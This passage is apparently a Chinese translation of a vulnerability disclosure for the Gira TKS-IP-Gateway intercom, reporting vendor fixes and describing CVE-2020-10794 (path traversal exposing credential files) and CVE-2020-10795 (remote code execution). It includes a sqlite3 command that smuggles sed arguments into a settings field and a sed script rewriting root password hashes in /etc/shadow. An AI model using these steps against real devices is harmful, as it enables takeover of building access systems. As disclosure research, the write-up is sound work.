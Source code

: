 
## 负责任的漏洞披露

我们联系了两个供应商并把我们的发现告知了他们。到现在，这些系统已经进行了正确的升级，所有的漏洞对它们不再有效。Siedle 甚至给了我们一个未编译的测试固件镜像，这样我们就能够在更新发布之前检验是否修复了所有的缺陷。总体上来说，我们对两个供应商的回应感到高兴，显然他们意识到了这些发现的重要性。两个供应商立即在他们自己的设置中验证了它们，并专业地解决了问题。



## Gira 利用链

[![](https://p2.ssl.qhimg.com/t017bd73e440691fda3.jpg)](https://p2.ssl.qhimg.com/t017bd73e440691fda3.jpg)

### <a class="reference-link" name="CVE-2020-10794:%20Gira%20TKS-IP-Gateway%204.0.7.7%20%E6%9C%AA%E6%8E%88%E6%9D%83%E8%B7%AF%E5%BE%84%E9%81%8D%E5%8E%86"></a>CVE-2020-10794: Gira TKS-IP-Gateway 4.0.7.7 未授权路径遍历

当我们开始研究 Gira TKS IP-Gateway 时，我们在 web 接口发现了一个路径遍历漏洞，利用这个漏洞我们下载了 `/app/db/gira.db`文件。在这个文件有 admin 的 md5-hash 的密码。如果密码的强度不够是很容易通过暴力破解获得密码的。我们下载的`/app/sdintern/messages`存在相同的漏洞。如果最近有人登录设备，密码会以明文的形式保存在在这个文件中。得到了登录凭证，这使得我们能够登录 web 前端重配设备或打开与之相连的门。

### <a class="reference-link" name="CVE-2020-10795:%20Gira%20TKS-IP-Gateway%204.0.7.7%20%E6%8E%88%E6%9D%83%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C"></a>CVE-2020-10795: Gira TKS-IP-Gateway 4.0.7.7 授权远程代码执行

现在我们已经获得了 web 界面上的管理权限，我们对 gira.db 进行了备份。这个备份使用了 tar 存档，我们可以打开并修改它:

```
sqlite3 backup/gira-V0101.db "UPDATE networksettings SET Name = 'tks-ip-gw/g -f /app/sdintern/segheg -i /etc/shadow -e s/foo/bar'"
```

以上代码中把 sed 命令放到了数据库中。在我们修改的 tar 归档文件中的 `sedheg` 文件替换 root 用户以及D3.IPGWvG! 用户的密码。它是看起来是这样的。

```
#!/bin/sh

s/D3.IPGWvG!:$1$6cFFPSWX$DjqoQuoo3Ucl7MsMeBcg7//D3.IPGWvG!:$1$eV3NNo/h$beH8VTIROWlVZKcrHvhu70/
s/root:$1$6cFFPSWX$DjqoQuoo3Ucl7MsMeBcg7//root:$1$eV3NNo/h$beH8VTIROWlVZKcrHvhu70/
```

两个用户都拥有 root 权限，或者可以使用 sudo 提权。准备好之后，我们对修改后的文件重打包。然后，我们使用 WEB 端提供的恢复功能上传我们修改后的备份文件。这触发了我们伪造的新网络设置(标记为，==&gt; ‘)，$NETWORK 的值来自于我们修改后的 sqlite 数据库。

```
[...]
    NETWORK=`/opt/lin/bin/sqlite3 /var/db/gira.db "select Id, Name, Nameserver, Dhcp, Gateway, Ip, Netmask from networksettings;"`
    [...]
==&gt; HNAME=`echo $NETWORK | /usr/bin/awk  -F"|" '`{`print $2`}`'`;
    NS=`echo $NETWORK | /usr/bin/awk  -F"|" '`{`print $3`}`'`;
    BOOTMODE=`echo $NETWORK | /usr/bin/awk  -F"|" '`{`print $4`}`'`;
    GW=`echo $NETWORK | /usr/bin/awk  -F"|" '`{`print $5`}`'`;
    IPADDR=`echo $NETWORK | /usr/bin/awk -F"|" '`{`print $6`}`'`;
    NETMASK=`echo $NETWORK | /usr/bin/awk -F"|" '`{`print $7`}`'`;
```
